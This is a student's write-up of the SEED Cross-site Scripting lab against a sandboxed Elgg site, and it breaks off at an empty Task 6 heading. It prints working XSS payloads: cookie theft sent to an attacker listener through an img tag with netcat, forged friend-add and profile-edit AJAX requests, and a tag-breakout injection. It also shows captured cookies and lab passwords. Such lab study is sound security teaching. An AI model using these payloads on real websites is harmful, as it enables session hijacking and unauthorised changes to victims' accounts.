 # Cross-site Scripting Attack Lab
- Cross-site Scripting (XSS) is a type of vulnerability commonly found in web applications. XSS makes it possible for attackers to inject malicious code (e.g., JavaScript programs) into victim's web browser, and steal a victim's credentials, such as session cookies. The access control policies (i.e., the same origin policy) employed by browsers to protect those credentials can be bypassed by exploiting XSS vulnerabilities
- topics
    - XSS attack
    - XSS worm and self-propagation
    - Session cookies
    - HTTP GET and POST requests
    - JavaScript and Ajax
    - Content Security Policy (CSP)

## Lab Setup
- DNS Setup: add some entries to `/etc/hosts`
    ```
    10.9.0.5        www.seed-server.com
    10.9.0.5        www.example32a.com
    10.9.0.5        www.example32b.com
    10.9.0.5        www.example32c.com
    10.9.0.5        www.example60.com
    10.9.0.5        www.example70.com
    ```
- web application: `Elgg`, a web-based social-networking application

## Preparation: Getting Familiar with the "HTTP Header Live" tool
- we need to capture, analyze, and construct HTTP requests in this lab
- use a Firefox add-on called `HTTP Header Live`

## Task 1: Posting a Malicious Message to Display an Alert Window
- objective: embed a JS program in our `Elgg` profile, such that when antoher user views our profile, the JS program will be executed and an alert window will be displayed
- use this JS program: `<script>alert('XSS');</script>`
- login with Alice's account, user name: `aclie`, password: `seedalice`
- Edit profile, and put the code in the brief description
- Go to the profile page, an alert is prompted
- if the JS program is too long, we can store the program in a standalone file, save it with `.js` extension, and then refer to it using the `src` attribute in the `<script>` tag
    ```
    <script type="text/javascript"
            src="http://www.example.com/myscripts.js">
    </script>
    ```

## Task 2: Posting a Malicious Message to Display Cookies
- use `<script>alert(document.cookie);</script>`
- then the script will print out the cookie: `Elgg=ugsb0ln5ip0ng59ftrph6nlvhb`

## Task 3: Stealing Cookies from the Victim's Machine
- in previous task, the attacker can print out the user's cookies, but only the user can see their own cookies, in this task, we want the JS code to send the cookies to us, e.g., the JS code needs to send an HTTP request to the attacker, with the cookies appended to the request
- we can do this by having the malicious JS insert an `<img>` tag with its `src` attribute set to the attacker's machine, when the JS insert the `img` tag, the browser tries to load the image from the URL in the `src` field, this result in an HTTP GET request sent to the attacker's machine
- code, `escape` is used to encode a string by replacing certain characters, e.g., spaces, punctuation, and non-ASCII characters with `%` followed by two hexadecimal digits
    ```
    <script>
        document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');
    </script>
    ```
- on the attacker machine: `nc -lknv 5555`, this makes the attacker machine a TCP server that listens for a connection on port `5555`
    - `-l` listen
    - `-nv` give more verbose output
    - `-k` when a connection is completed, listen for another one

- after injecting the code into Alice's profile, login as admin (user name `admin`, password `seedadmin`), and open Alice's profile, we will see the following content on the attacker's machine, we can see that the admin's cookie is `Elgg=o66op359c58nrdshhjg1qurb3e`
    ```
    Connection received on 10.0.2.15 35640
    GET /?c=Elgg%3Do66op359c58nrdshhjg1qurb3e HTTP/1.1
    Host: 10.9.0.1:5555
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
    Accept: image/webp,*/*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.seed-server.com/profile/alice
    Connection: keep-alive
    ```

## Task 4: Becoming the Victim's Friend
- this attack is similar to what Samy did to MySpace in 2005 (i.e., the Samy Worm), we will write an XSS worm that adds Samy as a friend to any other user that visits Samy's page, this worm doesn't self-propagate, but in task 6 it does
- write a JS program that forges HTTP requests directly from the victim's browser
- use HTTP Header Live to see what are sent to the server when a user adds a friend, it is actually a GET request with some parameters in the URL (the duplicated fields removed), this is what the URL looks like when Samy adds Charlie
    - `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1707036879&__elgg_token=yZAhDB7Dz7s7oA7LwQjmhA` 
- login as Alice and add Charlie
    - `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1707037676&__elgg_token=Gf3XT1cdnWD_wIQy4idzBQ`

- we can find that the parameter `friend` is the number of the user who is added (it is `59` for Samy, `58` for Charlie), but `__elgg_ts` and `__elgg_token` are changing, to launch the attack, we need to find a way to get the value of `__elgg_ts` and `__elgg_token` in the code
- if we inspect the element of the page, we can find `__elgg_ts` and `__elgg_token` in the `security.token` field of the variable `elgg`, so we can get their value using `elgg.security.__elgg_token` and `elgg.security.__elgg_ts`
- the malicious code
    ```
    <script type="text/javascript">
        window.onload = function () {
            var Ajax=null;
            var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
            var token="&__elgg_token="+elgg.security.token.__elgg_token;
            var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
        }
    </script>
    ```
- login as another user, e.g., Charlie, then open Samy's profile, and refresh the page, we can see that Charlie becomes a friend of Samy

- what if the web application only provide the Editor mode for the `About Me` field, i.e., we cannot switch to the Text mode, can we still launch a sucessful attack?
    - if we directly put the code in `About Me` field, it will not work
    - after entering some content, e.g., `xyz`, click `Edit HTML`, we can see that the actual content is `<p>xyz</p>`, our input will be treated as text, but we can bypass this by using `</p><script>alert('XSS');</script><p>`, then the HTML of the page will be
        ```
        <p></p>
        <script>alert('XSS');</script> <---- JS code
        </p><p>
        ```
## Task 5: Modifying the Victim's Profile
- objective: modify the victim's profile when the victime visits Samy's page (Specifically, the `About Me` field)
- login as Samy, edit the profile, input `7777` in `About Me` field, then save, by using HTTP Header Live, we can find the request, it is a POST request
    - request URL: `http://www.seed-server.com/action/profile/edit`
    - data in the request body
        ```
        __elgg_token=XI904ZLJZyFQND80lxnwyw&__elgg_ts=1707043935&name=Samy&description=<p>777777777777</p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid=59
        ```
    - edit the data as follows, and resend the request, we successfully modified the `About Me` field, this means we only need to include these parameters in the forged request
        ```
        __elgg_token=XI904ZLJZyFQND80lxnwyw&__elgg_ts=1707043935&name=Samy&description=<p>123</p> &guid=59
        ```
    - put the malicious JS code in Samy's profile
        ```
        <script type="text/javascript">
            window.onload = function () {
                var userName="&name="+elgg.session.user.name;
                var guid="&guid="+elgg.session.user.guid;
                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
                var token="&__elgg_token="+elgg.security.token.__elgg_token;
                var sendurl="http://www.seed-server.com/action/profile/edit";
                
                var content="description=<p>MODIFIED!</p>"+ts+token+guid+userName;
                var samyGuid=59;
                
                if(elgg.session.user.guid!=samyGuid) {
                    var Ajax=null;
                    Ajax=new XMLHttpRequest();
                    Ajax.open("POST", sendurl, true);
                    Ajax.setRequestHeader("Content-Type", 
                                "application/x-www-form-urlencoded");
                    Ajax.send(content);
                }
            }
        </script>
        ```
    - login as Alice, visit Samy's profile, then we can find that Alice's About Me is `MODIFIED!`

## Task 6: 